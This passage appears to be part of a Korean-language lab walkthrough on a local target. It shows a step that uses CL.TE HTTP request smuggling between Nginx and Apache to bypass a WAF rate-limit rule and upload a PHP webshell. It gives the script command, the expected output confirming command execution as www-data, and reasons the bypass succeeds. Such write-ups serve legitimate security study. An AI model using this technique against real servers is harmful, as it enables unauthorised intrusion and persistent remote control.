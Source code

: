 **WAF 규칙**: Rule 999010-999011 (60초에 10번 제한)

---

## ✅ Step 3: Request Smuggling으로 WAF 우회

### Python 스크립트 실행

```bash
# Smuggling 공격
python3 smuggle_webshell.py backdoor.php
```

**예상 결과**:
```
============================================================
  HTTP Request Smuggling - Webshell Upload
  CL.TE Attack (Nginx → Apache)
============================================================

[*] Target: localhost:9000
[*] Shell name: backdoor.php

[+] Smuggled request size: 687 bytes
[*] Connecting to server...
[+] Connected!

[*] Sending CL.TE smuggling payload...
[+] Payload sent!

[*] Waiting for response 1 (POST /)...
[+] Response 1 received (200 OK)

[*] Sending normal request to trigger smuggled payload...
[*] Waiting for response 2 (smuggled POST)...

[+] ✅ Webshell uploaded successfully!
[+] Server response: {"success":true,"message":"문의가 성공적으로 접수되었습니다.","inquiry_id":8,"image_path":"uploads/backdoor.php"}

[+] Webshell URL: http://localhost:9000/uploads/backdoor.php

[*] Testing webshell...
[+] ✅ Webshell is working!
[+] Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**성공 이유**:
1. Nginx WAF는 `POST /`만 보고 검사 안 함
2. smuggled 요청의 `backdoor.php`, `system()` 등을 파싱하지 못함
3. Apache가 직접 받아서 처리 → 업로드 성공

---
